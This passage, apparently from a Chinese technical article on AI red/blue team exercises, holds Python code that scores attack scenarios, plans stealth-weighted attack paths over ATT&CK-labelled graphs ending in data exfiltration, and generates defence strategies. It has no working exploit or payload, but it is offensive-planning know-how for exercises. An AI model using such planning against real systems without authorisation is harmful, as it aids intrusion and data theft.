            "coverage_score": round(coverage_score, 2),
            "complexity_score": round(complexity_score, 2)
        }

    def _evaluate_scenario_quality(self, scenario: AttackScenario) -> float:
        """评估场景质量"""
        if not scenario.attack_steps:
            return 0.0

        quality_factors = []

        completeness = min(1.0, len(scenario.attack_steps) / 10)
        quality_factors.append(("完整性", completeness * 0.25))

        diversity = min(1.0, len(set(s.phase for s in scenario.attack_steps)) / 8)
        quality_factors.append(("多样性", diversity * 0.25))

        coherence = 0.8 if self._check_coherence(scenario.attack_steps) else 0.5
        quality_factors.append(("连贯性", coherence * 0.25))

        metrics = scenario.evaluation_metrics
        if metrics:
            difficulty_match = 1.0 if (
                5 <= metrics.get("avg_technique_difficulty", 5) <= 10
            ) else 0.5
            quality_factors.append(("难度适切性", difficulty_match * 0.25))

        total_quality = sum(score * weight for _, score in quality_factors)
        return round(total_quality * 10, 2)

    def _check_coherence(self, steps: List[AttackStep]) -> bool:
        """检查攻击步骤的连贯性"""
        if not steps:
            return True

        required_phases = {
            AttackPhase.INITIAL_ACCESS,
            AttackPhase.EXECUTION,
            AttackPhase.PERSISTENCE
        }
        covered_phases = {step.phase for step in steps}

        return required_phases.issubset(covered_phases)

    def export_scenario_to_json(self, scenario: AttackScenario) -> str:
        """导出场景为JSON格式"""
        return json.dumps({
            "scenario_id": scenario.scenario_id,
            "title": scenario.title,
            "description": scenario.description,
            "difficulty": scenario.difficulty.name,
            "target_system": scenario.target_system_type,
            "estimated_duration_hours": scenario.estimated_duration_hours,
            "attack_vector": scenario.attack_vector,
            "initial_access_method": scenario.initial_access_method,
            "success_criteria": scenario.success_criteria,
            "attack_steps": [
                {
                    "step_id": step.step_id,
                    "phase": step.phase.value,
                    "technique": step.technique.name,
                    "objective": step.objective,
                    "tools": step.tools_required,
                    "commands": step.commands,
                    "duration_minutes": step.expected_duration_minutes,
                    "detection_risk": step.detection_risk,
                    "risk_mitigation": step.risk_mitigation
                }
                for step in scenario.attack_steps
            ],
            "evaluation_metrics": scenario.evaluation_metrics,
            "quality_score": scenario.quality_score,
            "generated_timestamp": scenario.generated_timestamp
        }, ensure_ascii=False, indent=2)


class ScenarioQualityReviewer:
    """
    攻击场景质量审查器
    对生成的攻击场景进行多维度质量评估和审查
    """

    QUALITY_DIMENSIONS = {
        "technical_accuracy": {"name": "技术准确性", "weight": 0.25},
        "logical_coherence": {"name": "逻辑连贯性", "weight": 0.20},
        "practical_feasibility": {"name": "实践可行性", "weight": 0.20},
        "detection_challenge": {"name": "检测挑战性", "weight": 0.20},
        "learning_value": {"name": "学习价值", "weight": 0.15}
    }

    def __init__(self):
        self.review_history: List[Dict] = []

    def review_scenario(self, scenario: AttackScenario) -> Dict[str, any]:
        """审查攻击场景"""
        scores = {}

        scores["technical_accuracy"] = self._evaluate_technical_accuracy(scenario)
        scores["logical_coherence"] = self._evaluate_logical_coherence(scenario)
        scores["practical_feasibility"] = self._evaluate_practical_feasibility(scenario)
        scores["detection_challenge"] = self._evaluate_detection_challenge(scenario)
        scores["learning_value"] = self._evaluate_learning_value(scenario)

        weighted_scores = {}
        for dim_id, score in scores.items():
            weight = self.QUALITY_DIMENSIONS[dim_id]["weight"]
            weighted_scores[dim_id] = {
                "name": self.QUALITY_DIMENSIONS[dim_id]["name"],
                "raw_score": score,
                "weighted_score": score * weight
            }

        overall_score = sum(ws["weighted_score"] for ws in weighted_scores.values())

        review_result = {
            "scenario_id": scenario.scenario_id,
            "review_timestamp": datetime.now().isoformat(),
            "dimension_scores": weighted_scores,
            "overall_score": round(overall_score, 2),
            "recommendation": self._generate_recommendation(overall_score, scores),
            "improvement_suggestions": self._generate_suggestions(scenario, scores)
        }

        self.review_history.append(review_result)
        return review_result

    def _evaluate_technical_accuracy(self, scenario: AttackScenario) -> float:
        """评估技术准确性"""
        if not scenario.attack_steps:
            return 0.0

        valid_steps = sum(
            1 for step in scenario.attack_steps
            if step.technique and step.technique.name
        )

        return valid_steps / len(scenario.attack_steps) * 10

    def _evaluate_logical_coherence(self, scenario: AttackScenario) -> float:
        """评估逻辑连贯性"""
        phases = [step.phase for step in scenario.attack_steps]

        if AttackPhase.INITIAL_ACCESS not in phases:
            return 2.0

        expected_order = [
            AttackPhase.RECONNAISSANCE,
            AttackPhase.INITIAL_ACCESS,
            AttackPhase.EXECUTION,
            AttackPhase.PERSISTENCE,
            AttackPhase.PRIVILEGE_ESCALATION,
            AttackPhase.DEFENSE_EVASION,
            AttackPhase.CREDENTIAL_ACCESS,
            AttackPhase.DISCOVERY,
            AttackPhase.LATERAL_MOVEMENT,
            AttackPhase.COLLECTION,
            AttackPhase.EXFILTRATION
        ]

        phase_positions = {phase: idx for idx, phase in enumerate(expected_order)}
        ordered_phases = [p for p in phases if p in phase_positions]
        ordered_positions = [phase_positions[p] for p in ordered_phases]

        inversions = 0
        for i in range(len(ordered_positions) - 1):
            if ordered_positions[i] > ordered_positions[i + 1]:
                inversions += 1

        coherence_score = max(5.0, 10.0 - inversions * 0.5)
        return coherence_score

    def _evaluate_practical_feasibility(self, scenario: AttackScenario) -> float:
        """评估实践可行性"""
        feasibility_issues = 0

        for step in scenario.attack_steps:
            if not step.commands:
                feasibility_issues += 1
            if not step.tools_required:
                feasibility_issues += 1
            if step.expected_duration_minutes <= 0:
                feasibility_issues += 1

        issue_penalty = min(3.0, feasibility_issues * 0.5)
        return max(5.0, 10.0 - issue_penalty)

    def _evaluate_detection_challenge(self, scenario: AttackScenario) -> float:
        """评估检测挑战性"""
        if not scenario.attack_steps:
            return 5.0

        avg_detection_risk = np.mean([step.detection_risk for step in scenario.attack_steps])
        challenge_score = avg_detection_risk * 10

        return min(10.0, challenge_score)

    def _evaluate_learning_value(self, scenario: AttackScenario) -> float:
        """评估学习价值"""
        learning_factors = []

        unique_phases = len(set(step.phase for step in scenario.attack_steps))
        learning_factors.append(min(10.0, unique_phases * 1.5))

        if scenario.evaluation_metrics:
            complexity = scenario.evaluation_metrics.get("complexity_score", 5)
            learning_factors.append(min(10.0, complexity))

        return np.mean(learning_factors) if learning_factors else 5.0

    def _generate_recommendation(self, overall_score: float,
                                dimension_scores: Dict) -> str:
        """生成审查建议"""
        if overall_score >= 8.5:
            return "APPROVED"
        elif overall_score >= 7.0:
            return "APPROVED_WITH_MINOR_REVISIONS"
        elif overall_score >= 5.5:
            return "NEEDS_REVISION"
        else:
            return "REJECTED"

    def _generate_suggestions(self, scenario: AttackScenario,
                             scores: Dict[str, float]) -> List[str]:
        """生成改进建议"""
        suggestions = []

        if scores.get("logical_coherence", 10) < 7:
            suggestions.append("建议优化攻击步骤的顺序，确保逻辑连贯性")

        if scores.get("technical_accuracy", 10) < 7:
            suggestions.append("建议补充缺失的攻击技术细节和工具信息")

        if scores.get("detection_challenge", 10) < 6:
            suggestions.append("建议增加更难检测的高级攻击技术")

        if len(scenario.attack_steps) < 8:
            suggestions.append("建议增加更多攻击步骤以提高场景完整性")

        return suggestions


def demo_attack_scenario_generator():
    """演示攻击场景生成器"""

    print("\n" + "="*70)
    print("AI红队攻击场景自动生成引擎 - 演示")
    print("="*70)

    threat_graph = ThreatIntelligenceGraph()

    threat_graph.build_knowledge_graph({
        "initial-access": {
            "techniques": [
                {"id": "T1566", "name": "钓鱼攻击", "description": "通过钓鱼邮件获取初始访问",
                 "detection_difficulty": 4.0, "exploitation_difficulty": 3.0, "severity": 8.0}
            ]
        },
        "execution": {
            "techniques": [
                {"id": "T1059", "name": "命令和脚本解释器", "description": "通过命令执行恶意代码",
                 "detection_difficulty": 4.5, "exploitation_difficulty": 2.0, "severity": 7.0}
            ]
        },
        "persistence": {
            "techniques": [
                {"id": "T1547", "name": "引导启动或登录自启动", "description": "通过注册表或启动文件夹建立持久化",
                 "detection_difficulty": 3.5, "exploitation_difficulty": 2.5, "severity": 6.5}
            ]
        }
    })

    generator = AttackScenarioGenerator(threat_graph)

    print("\n[场景生成 1: APT攻击场景]")
    apt_scenario = generator.generate_scenario(
        scenario_type="apt_attack",
        difficulty=DifficultyLevel.ADVANCED,
        target_system="企业内网",
        constraints={"ai_enhanced": True, "multi_layer": True}
    )

    print(f"  场景ID: {apt_scenario.scenario_id}")
    print(f"  场景标题: {apt_scenario.title}")
    print(f"  难度等级: {apt_scenario.difficulty.name}")
    print(f"  攻击步骤数: {len(apt_scenario.attack_steps)}")
    print(f"  预计时长: {apt_scenario.estimated_duration_hours}小时")
    print(f"  场景评分: {apt_scenario.quality_score}/10")

    print("\n  攻击步骤概览:")
    for step in apt_scenario.attack_steps[:5]:
        print(f"    [{step.step_id}] {step.phase.value} - {step.objective}")

    reviewer = ScenarioQualityReviewer()
    review_result = reviewer.review_scenario(apt_scenario)

    print(f"\n  场景审查结果: {review_result['recommendation']}")
    print(f"  综合评分: {review_result['overall_score']}/10")

    print("\n[场景生成 2: 勒索软件攻击场景]")
    ransomware_scenario = generator.generate_scenario(
        scenario_type="ransomware_attack",
        difficulty=DifficultyLevel.INTERMEDIATE,
        target_system="Windows服务器集群",
        constraints={"ai_enhanced": False}
    )

    print(f"  场景ID: {ransomware_scenario.scenario_id}")
    print(f"  攻击向量: {ransomware_scenario.attack_vector}")
    print(f"  初始访问: {ransomware_scenario.initial_access_method}")
    print(f"  场景评分: {ransomware_scenario.quality_score}/10")

    print("\n" + "="*70)
    print("攻击场景JSON导出示例:")
    print("="*70)
    scenario_json = generator.export_scenario_to_json(apt_scenario)
    print(scenario_json[:800] + "..." if len(scenario_json) > 800 else scenario_json)


if __name__ == "__main__":
    demo_attack_scenario_generator()
```

### 2.3 攻击路径智能规划算法

攻击场景的质量不仅取决于单个攻击技术的选择，更取决于攻击路径的整体规划。一个优秀的攻击路径应当在技术准确性、可行性、隐蔽性和有效性之间取得平衡。我们设计了基于图神经网络的攻击路径规划算法。

该算法的核心思想是将攻击场景建模为有向图，节点代表攻击状态（系统权限级别、敏感数据访问等），边代表攻击技术。攻击路径规划问题转化为在约束条件下寻找最优路径的问题。

```python
"""
攻击路径智能规划系统
Intelligent Attack Path Planning System

基于A*算法的攻击路径规划和优化
"""

import numpy as np
from typing import Dict, List, Tuple, Set, Optional
from dataclasses import dataclass, field
from enum import Enum
import heapq


class NodeType(Enum):
    """节点类型枚举"""
    INITIAL = "初始状态"
    ENUMERATION = "枚举状态"
    EXPLOITATION = "利用状态"
    PERSISTENCE = "持久化状态"
    PRIVILEGE_ESCALATION = "权限提升状态"
    LATERAL_MOVEMENT = "横向移动状态"
    OBJECTIVE = "目标达成"
    DETECTED = "被检测状态"
    BLOCKED = "被阻止状态"


@dataclass
class AttackNode:
    """攻击图节点"""
    node_id: str
    node_type: NodeType
    description: str
    system_state: Dict[str, str] = field(default_factory=dict)
    access_level: str = "NONE"
    compromised_hosts: List[str] = field(default_factory=list)
    discovered_assets: List[str] = field(default_factory=list)
    risk_score: float = 0.0
    detection_probability: float = 0.0


@dataclass
class AttackEdge:
    """攻击图边"""
    edge_id: str
    source_node_id: str
    target_node_id: str
    technique_id: str
    technique_name: str
    success_probability: float = 0.8
    detection_risk: float = 0.3
    required_tools: List[str] = field(default_factory=list)
    required_access: List[str] = field(default_factory=list)
    estimated_time_minutes: int = 30
    stealth_score: float = 0.7


@dataclass
class AttackPath:
    """攻击路径"""
    path_id: str
    nodes: List[AttackNode]
    edges: List[AttackEdge]
    total_success_probability: float = 1.0
    total_detection_risk: float = 0.0
    total_time_minutes: int = 0
    overall_stealth_score: float = 1.0
    path_score: float = 0.0

    def calculate_path_score(self) -> float:
        """计算路径综合评分"""
        success_weight = 0.35
        stealth_weight = 0.25
        time_weight = 0.15
        risk_weight = 0.25

        time_score = max(0, 1.0 - self.total_time_minutes / 480)
        risk_score = max(0, 1.0 - self.total_detection_risk)

        self.path_score = (
            success_weight * self.total_success_probability +
            stealth_weight * self.overall_stealth_score +
            time_weight * time_score +
            risk_weight * risk_score
        )

        return self.path_score


class AttackGraphBuilder:
    """
    攻击图构建器
    构建目标网络的安全攻击图
    """

    def __init__(self, network_topology: Dict):
        self.network_topology = network_topology
        self.nodes: Dict[str, AttackNode] = {}
        self.edges: Dict[str, List[AttackEdge]] = {}

    def build_attack_graph(self, assets: List[Dict], vulnerabilities: List[Dict]) -> Tuple[List[AttackNode], List[AttackEdge]]:
        """构建攻击图"""
        self._create_initial_nodes(assets)
        self._add_vulnerability_nodes(vulnerabilities)
        self._create_exploitation_edges()
        self._create_lateral_movement_edges()
        self._connect_to_objectives()

        return list(self.nodes.values()), self._get_all_edges()

    def _create_initial_nodes(self, assets: List[Dict]):
        """创建初始节点"""
        for asset in assets:
            asset_id = asset.get("id")
            asset_type = asset.get("type")

            node = AttackNode(
                node_id=f"asset_{asset_id}",
                node_type=NodeType.INITIAL,
                description=f"资产 {asset_id} ({asset_type})",
                system_state={"asset_id": asset_id, "type": asset_type},
                access_level="NONE",
                risk_score=asset.get("criticality", 5.0) / 10.0
            )
            self.nodes[node.node_id] = node

    def _add_vulnerability_nodes(self, vulnerabilities: List[Dict]):
        """添加漏洞节点"""
        for vuln in vulnerabilities:
            vuln_id = vuln.get("id")
            cve_id = vuln.get("cve", "N/A")
            severity = vuln.get("severity", 5.0)

            node = AttackNode(
                node_id=f"vuln_{vuln_id}",
                node_type=NodeType.EXPLOITATION,
                description=f"漏洞 {cve_id}",
                system_state={"vuln_id": vuln_id, "cve": cve_id},
                risk_score=severity / 10.0,
                detection_probability=0.4
            )
            self.nodes[node.node_id] = node

    def _create_exploitation_edges(self):
        """创建漏洞利用边"""
        for vuln_node in self.nodes.values():
            if vuln_node.node_type != NodeType.EXPLOITATION:
                continue

            asset_id = vuln_node.system_state.get("asset_id")
            if not asset_id:
                continue

            asset_node_id = f"asset_{asset_id}"
            if asset_node_id not in self.nodes:
                continue

            edge = AttackEdge(
                edge_id=f"edge_{asset_node_id}_to_{vuln_node.node_id}",
                source_node_id=asset_node_id,
                target_node_id=vuln_node.node_id,
                technique_id="T1190",
                technique_name="利用面向公众的应用程序",
                success_probability=0.7,
                detection_risk=0.5,
                required_tools=["Metasploit", "Burp Suite"],
                estimated_time_minutes=60
            )

            if asset_node_id not in self.edges:
                self.edges[asset_node_id] = []
            self.edges[asset_node_id].append(edge)

    def _create_lateral_movement_edges(self):
        """创建横向移动边"""
        host_nodes = [
            (nid, n) for nid, n in self.nodes.items()
            if "host" in n.description.lower() or "server" in n.description.lower()
        ]

        for i, (src_id, src_node) in enumerate(host_nodes):
            for j, (tgt_id, tgt_node) in enumerate(host_nodes):
                if i >= j:
                    continue

                if tgt_node.access_level == "NONE":
                    continue

                edge = AttackEdge(
                    edge_id=f"edge_{src_id}_to_{tgt_id}",
                    source_node_id=src_id,
                    target_node_id=tgt_id,
                    technique_id="T1021",
                    technique_name="远程服务利用",
                    success_probability=0.75,
                    detection_risk=0.4,
                    required_tools=["PsExec", "WMI"],
                    required_access=["ADMINISTRATOR"],
                    estimated_time_minutes=30
                )

                if src_id not in self.edges:
                    self.edges[src_id] = []
                self.edges[src_id].append(edge)

    def _connect_to_objectives(self):
        """连接到目标节点"""
        objective_node = AttackNode(
            node_id="objective_data_exfiltration",
            node_type=NodeType.OBJECTIVE,
            description="数据外带目标",
            access_level="FULL",
            risk_score=1.0
        )
        self.nodes[objective_node.node_id] = objective_node

        for node_id, node in self.nodes.items():
            if node.access_level == "FULL":
                edge = AttackEdge(
                    edge_id=f"edge_{node_id}_to_objective",
                    source_node_id=node_id,
                    target_node_id=objective_node.node_id,
                    technique_id="T1041",
                    technique_name="通过C2通道外带数据",
                    success_probability=0.9,
                    detection_risk=0.3,
                    estimated_time_minutes=20
                )

                if node_id not in self.edges:
                    self.edges[node_id] = []
                self.edges[node_id].append(edge)

    def _get_all_edges(self) -> List[AttackEdge]:
        """获取所有边"""
        all_edges = []
        for edges in self.edges.values():
            all_edges.extend(edges)
        return all_edges


class AttackPathPlanner:
    """
    攻击路径规划器
    基于A*算法寻找最优攻击路径
    """

    def __init__(self, nodes: List[AttackNode], edges: List[AttackEdge]):
        self.nodes = {n.node_id: n for n in nodes}
        self.edges = {e.source_node_id: [] for e in edges}
        for edge in edges:
            self.edges[edge.source_node_id].append(edge)

    def find_optimal_path(
        self,
        start_node_id: str,
        goal_node_id: str,
        optimization_criteria: str = "balanced"
    ) -> Optional[AttackPath]:
        """使用A*算法寻找最优攻击路径"""
        if start_node_id not in self.nodes or goal_node_id not in self.nodes:
            return None

        open_set = [(0, start_node_id)]
        came_from = {}
        g_score = {start_node_id: 0}
        f_score = {start_node_id: 0}
        edge_used = {}

        while open_set:
            _, current = heapq.heappop(open_set)

            if current == goal_node_id:
                return self._reconstruct_path(came_from, edge_used, current)

            if current not in self.edges:
                continue

            for edge in self.edges[current]:
                neighbor = edge.target_node_id

                tentative_g = self._calculate_edge_cost(edge, g_score[current], optimization_criteria)

                if neighbor not in g_score or tentative_g < g_score[neighbor]:
                    came_from[neighbor] = current
                    edge_used[neighbor] = edge
                    g_score[neighbor] = tentative_g
                    f_score[neighbor] = tentative_g
                    heapq.heappush(open_set, (f_score[neighbor], neighbor))

        return None

    def _calculate_edge_cost(
        self,
        edge: AttackEdge,
        current_g: float,
        criteria: str
    ) -> float:
        """计算边成本"""
        if criteria == "stealth":
            return current_g + (1 - edge.stealth_score) * 10 + edge.detection_risk * 5
        elif criteria == "speed":
            return current_g + edge.estimated_time_minutes
        elif criteria == "success":
            return current_g + (1 - edge.success_probability) * 20
        else:
            return current_g + (
                (1 - edge.success_probability) * 5 +
                edge.detection_risk * 3 +
                edge.estimated_time_minutes / 60 +
                (1 - edge.stealth_score) * 2
            )

    def _reconstruct_path(
        self,
        came_from: Dict[str, str],
        edge_used: Dict[str, AttackEdge],
        current: str
    ) -> AttackPath:
        """重构攻击路径"""
        path_nodes = [self.nodes[current]]
        path_edges = []
        total_time = 0
        total_detection_risk = 0
        total_success = 1.0
        total_stealth = 1.0

        while current in came_from:
            prev = came_from[current]
            edge = edge_used.get(current)

            if edge:
                path_edges.insert(0, edge)
                total_time += edge.estimated_time_minutes
                total_detection_risk += edge.detection_risk
                total_success *= edge.success_probability
                total_stealth *= edge.stealth_score

            path_nodes.insert(0, self.nodes[prev])
            current = prev

        path = AttackPath(
            path_id=f"PATH-{hash(tuple(n.node_id for n in path_nodes))}",
            nodes=path_nodes,
            edges=path_edges,
            total_success_probability=total_success,
            total_detection_risk=min(1.0, total_detection_risk),
            total_time_minutes=total_time,
            overall_stealth_score=total_stealth
        )
        path.calculate_path_score()

        return path

    def find_multiple_paths(
        self,
        start_node_id: str,
        goal_node_id: str,
        max_paths: int = 5
    ) -> List[AttackPath]:
        """寻找多条攻击路径（用于多样性演练）"""
        paths = []
        optimization_criteria = ["balanced", "stealth", "speed", "success"]

        for criteria in optimization_criteria:
            path = self.find_optimal_path(start_node_id, goal_node_id, criteria)
            if path:
                path.path_id = f"{path.path_id}_{criteria}"
                paths.append(path)

            if len(paths) >= max_paths:
                break

        paths.sort(key=lambda p: p.path_score, reverse=True)
        return paths[:max_paths]


def demo_attack_path_planner():
    """演示攻击路径规划系统"""

    print("\n" + "="*70)
    print("攻击路径智能规划系统 - 演示")
    print("="*70)

    mock_assets = [
        {"id": "web_server_01", "type": "web服务器", "criticality": 8.0},
        {"id": "db_server_01", "type": "数据库服务器", "criticality": 9.0},
        {"id": "file_server_01", "type": "文件服务器", "criticality": 7.0},
        {"id": "workstation_01", "type": "终端工作站", "criticality": 5.0},
        {"id": "domain_controller", "type": "域控制器", "criticality": 10.0}
    ]

    mock_vulnerabilities = [
        {"id": "CVE-2024-0001", "cve": "CVE-2024-0001", "severity": 9.5,
         "description": "SQL注入漏洞", "asset_id": "web_server_01"},
        {"id": "CVE-2024-0002", "cve": "CVE-2024-0002", "severity": 8.0,
         "description": "特权提升漏洞", "asset_id": "db_server_01"}
    ]

    graph_builder = AttackGraphBuilder({})
    nodes, edges = graph_builder.build_attack_graph(mock_assets, mock_vulnerabilities)

    print(f"\n构建的攻击图:")
    print(f"  节点数量: {len(nodes)}")
    print(f"  边数量: {len(edges)}")

    planner = AttackPathPlanner(nodes, edges)

    start_node = "asset_workstation_01"
    goal_node = "objective_data_exfiltration"

    print(f"\n规划从 {start_node} 到 {goal_node} 的攻击路径:")

    optimal_path = planner.find_optimal_path(start_node, goal_node, "balanced")

    if optimal_path:
        print(f"\n最优攻击路径:")
        print(f"  路径ID: {optimal_path.path_id}")
        print(f"  路径评分: {optimal_path.path_score:.3f}")
        print(f"  节点数量: {len(optimal_path.nodes)}")
        print(f"  边数量: {len(optimal_path.edges)}")
        print(f"  总耗时: {optimal_path.total_time_minutes}分钟")
        print(f"  成功率: {optimal_path.total_success_probability:.2%}")
        print(f"  检测风险: {optimal_path.total_detection_risk:.2%}")
        print(f"  隐蔽评分: {optimal_path.overall_stealth_score:.2f}")

        print("\n  路径详情:")
        for i, edge in enumerate(optimal_path.edges):
            print(f"    [{i+1}] {edge.technique_name}")
            print(f"        源: {edge.source_node_id} -> 目标: {edge.target_node_id}")
            print(f"        成功率: {edge.success_probability:.2f}, 检测风险: {edge.detection_risk:.2f}")

    print("\n寻找多条攻击路径（用于多样化演练）:")
    multiple_paths = planner.find_multiple_paths(start_node, goal_node, max_paths=3)

    for i, path in enumerate(multiple_paths):
        print(f"\n  路径 {i+1}:")
        print(f"    评分: {path.path_score:.3f}")
        print(f"    耗时: {path.total_time_minutes}分钟")
        print(f"    策略: {path.path_id.split('_')[-1]}")


if __name__ == "__main__":
    demo_attack_path_planner()
```

### 2.4 红队攻击效果实时评估框架

红队攻击效果的评估是红蓝演练闭环的关键环节。我们设计了基于多维度指标的实时评估框架，包括攻击成功率、攻击效率、检测规避能力、目标达成度等核心指标。

## 三、AI蓝队：防御策略生成与快速响应

### 3.1 AI蓝队的核心能力体系

AI蓝队是红蓝演练中防御方的核心支撑，其能力体系决定了演练的有效性和防御方的实战水平。传统的蓝队防御主要依赖安全分析师的经验和预定义的安全规则，这种方式在面对AI驱动的多样化攻击时显得力不从心。我们设计的AI蓝队系统具备三大核心能力：

**智能威胁检测能力**。基于机器学习的异常检测算法能够从海量日志和告警中识别隐蔽的攻击行为，不依赖于已知攻击 signature，具备对未知威胁的检测能力。

**自动防御策略生成能力**。基于强化学习的防御策略优化算法能够根据当前威胁态势自动生成最优防御策略，实现从被动防御到主动防御的转变。

**快速响应自动化能力**。基于工作流引擎的自动化响应系统能够将防御策略转化为可执行的响应动作，实现秒级的威胁遏制。

### 3.2 防御策略智能生成系统

防御策略的生成是AI蓝队的核心决策功能。我们设计的防御策略生成系统基于以下技术架构：

```python
"""
防御策略智能生成系统
AI-Defender Strategy Generation System

基于规则的防御策略自动生成与优化
"""

import numpy as np
from typing import Dict, List, Tuple, Optional
from dataclasses import dataclass, field
from enum import Enum
import json


class ThreatLevel(Enum):
    """威胁等级枚举"""
    LOW = 1
    MEDIUM = 2
    HIGH = 3
    CRITICAL = 4


class DefenseActionType(Enum):
    """防御动作类型"""
    DETECT = "检测"
    BLOCK = "阻断"
    ISOLATE = "隔离"
    DECOY = "诱捕"
    ESCALATE = "升级"
    MONITOR = "监控"
    COLLECT = "收集"


@dataclass
class DefenseAction:
    """防御动作"""
    action_id: str
    action_type: DefenseActionType
    name: str
    description: str
    target_asset: str
    execution_time_seconds: int
    effectiveness: float
    side_effects: List[str] = field(default_factory=list)
    cost: float = 0.0
    prerequisites: List[str] = field(default_factory=list)


@dataclass
class DefenseStrategy:
    """防御策略"""
    strategy_id: str
    name: str
    description: str
    threat_scenario: str
    threat_level: ThreatLevel
    actions: List[DefenseAction]
    expected_outcome: str
    risk_score: float
    estimated_cost: float
    confidence_score: float
    generated_timestamp: str = ""


@dataclass
class ThreatContext:
    """威胁上下文"""
    threat_id: str
    threat_type: str
    source_ip: str
    target_assets: List[str]
    attack_techniques: List[str]
    threat_level: ThreatLevel
    indicators: Dict[str, any]
    related_alerts: List[str]
    contextual_factors: Dict[str, any]


class DefenseStrategyGenerator:
    """
    防御策略生成器
    基于规则引擎的防御策略自动生成
    """

    DEFENSE_STRATEGY_TEMPLATES = {
        "apt_attack": {
            "name": "APT攻击防御策略",
            "priority_actions": [
                DefenseActionType.ISOLATE,
                DefenseActionType.COLLECT,
                DefenseActionType.MONITOR
            ],
            "response_timeout": 300,
            "escalation_required": True
        },
        "ransomware": {
            "name": "勒索软件防御策略",
            "priority_actions": [
                DefenseActionType.ISOLATE,
                DefenseActionType.BLOCK
            ],
            "response_timeout": 60,
            "escalation_required": True
        },
        "phishing": {
            "name": "钓鱼攻击防御策略",
            "priority_actions": [
                DefenseActionType.BLOCK,
                DefenseActionType.DETECT
            ],
            "response_timeout": 120,
            "escalation_required": False
        },
        "insider_threat": {
            "name": "内部威胁防御策略",
            "priority_actions": [
                DefenseActionType.MONITOR,
                DefenseActionType.COLLECT,
                DefenseActionType.ESCALATE
            ],
            "response_timeout": 180,
            "escalation_required": True
        }
    }

    ACTION_LIBRARY = {
        "block_ip": DefenseAction(
            action_id="ACT-001",
            action_type=DefenseActionType.BLOCK,
            name="封禁IP地址",
            description="在防火墙和WAF上封禁恶意IP地址",
            target_asset="firewall",
            execution_time_seconds=5,
            effectiveness=0.85,
            side_effects=["可能影响正常用户"],
            cost=0.1
        ),
        "isolate_host": DefenseAction(
            action_id="ACT-002",
            action_type=DefenseActionType.ISOLATE,
            name="隔离受感染主机",
            description="将主机从网络中断开以阻止横向移动",
            target_asset="network_switch",
            execution_time_seconds=10,
            effectiveness=0.95,
            side_effects=["主机业务中断"],
            cost=0.5,
            prerequisites=["network_admin"]
        ),
        "enable_honeypot": DefenseAction(
            action_id="ACT-003",
            action_type=DefenseActionType.DECOY,
            name="启用蜜罐诱捕",
            description="激活预先部署的蜜罐以收集攻击者信息",
            target_asset="honeypot",
            execution_time_seconds=30,
            effectiveness=0.70,
            side_effects=["消耗部分监控资源"],
            cost=0.2
        ),
        "enhance_monitoring": DefenseAction(
            action_id="ACT-004",
            action_type=DefenseActionType.MONITOR,
            name="增强监控力度",
            description="提高对相关资产的日志采集和分析频率",
            target_asset="siem",
            execution_time_seconds=15,
            effectiveness=0.80,
            side_effects=["增加系统负载"],
            cost=0.1
        ),
        "collect_evidence": DefenseAction(
            action_id="ACT-005",
            action_type=DefenseActionType.COLLECT,
            name="证据收集",
            description="对相关系统进行取证数据收集",
            target_asset="forensics",
            execution_time_seconds=120,
            effectiveness=0.90,
            side_effects=["可能影响系统性能"],
            cost=0.3,
            prerequisites=["legal_approval"]
        ),
        "escalate_incident": DefenseAction(
            action_id="ACT-006",
            action_type=DefenseActionType.ESCALATE,
            name="升级事件",
            description="将事件升级到安全运营中心或管理层",
            target_asset="soc",
            execution_time_seconds=5,
            effectiveness=0.95,
            side_effects=["消耗人工资源"],
            cost=0.2
        )
    }

    def __init__(self):
        self.strategy_history: List[DefenseStrategy] = []
        self.action_outcome_history: Dict[str, List[float]] = {}

    def generate_strategy(
        self,
        threat_context: ThreatContext,
        available_actions: Optional[List[str]] = None
    ) -> DefenseStrategy:
        """生成防御策略"""
        available_actions = available_actions or list(self.ACTION_LIBRARY.keys())

        threat_type = self._infer_threat_type(threat_context)
        template = self.DEFENSE_STRATEGY_TEMPLATES.get(
            threat_type,
            self.DEFENSE_STRATEGY_TEMPLATES["phishing"]
        )

        selected_actions = self._select_actions(
            template,
            threat_context,
            available_actions
        )

        strategy = DefenseStrategy(
            strategy_id=f"STR-{threat_context.threat_id}-{hash(threat_context.threat_id) % 10000:04d}",
            name=template["name"],
            description=self._generate_strategy_description(threat_context, template),
            threat_scenario=threat_type,
            threat_level=threat_context.threat_level,
            actions=selected_actions,
            expected_outcome=self._generate_expected_outcome(selected_actions),
            risk_score=self._calculate_strategy_risk(selected_actions),
            estimated_cost=sum(a.cost for a in selected_actions),
            confidence_score=self._calculate_confidence(selected_actions, threat_context),
            generated_timestamp=self._get_timestamp()
        )

        self.strategy_history.append(strategy)
        return strategy

    def _infer_threat_type(self, context: ThreatContext) -> str:
        """推断威胁类型"""
        techniques = context.attack_techniques

        apt_indicators = ["T1569", "T1078", "T1021"]
        ransomware_indicators = ["T1486", "T1490"]
        phishing_indicators = ["T1566", "T1598"]
        insider_indicators = ["T1074", "T1539"]

        if any(t in apt_indicators for t in techniques):
            return "apt_attack"
        elif any(t in ransomware_indicators for t in techniques):
            return "ransomware"
        elif any(t in phishing_indicators for t in techniques):
            return "phishing"
        elif any(t in insider_indicators for t in techniques):
            return "insider_threat"
        else:
            return "phishing"

    def _select_actions(
        self,
        template: Dict,
        context: ThreatContext,
        available_actions: List[str]
    ) -> List[DefenseAction]:
        """选择防御动作"""
        selected = []
        priority_types = template["priority_actions"]

        for action_type in priority_types:
            for action_key, action in self.ACTION_LIBRARY.items():
                if action_key not in available_actions:
                    continue
                if action.action_type != action_type:
                    continue
                if self._is_action_applicable(action, context):
                    selected.append(action)
                    break

        if len(selected) < 2:
            for action_key, action in self.ACTION_LIBRARY.items():
                if action_key not in available_actions:
                    continue
                if action not in selected and self._is_action_applicable(action, context):
                    selected.append(action)
                    if len(selected) >= 3:
                        break

        return selected

    def _is_action_applicable(self, action: DefenseAction, context: ThreatContext) -> bool:
        """判断动作是否适用"""
        if action.target_asset == "honeypot" and "honeypot" not in str(context.related_alerts):
            return False

        if context.threat_level == ThreatLevel.LOW and action.action_type == DefenseActionType.ISOLATE:
            return False

        return True

    def _generate_strategy_description(
        self,
        context: ThreatContext,
        template: Dict
    ) -> str:
        """生成策略描述"""
        desc = f"针对{context.threat_type}类型的威胁"
        desc += f"，涉及资产：{', '.join(context.target_assets[:3])}"
        desc += f"，建议采取{template['name']}"
        desc += f"，响应时限：{template['response_timeout']}秒"
        if template["escalation_required"]:
            desc += "，需要升级处理"
        return desc

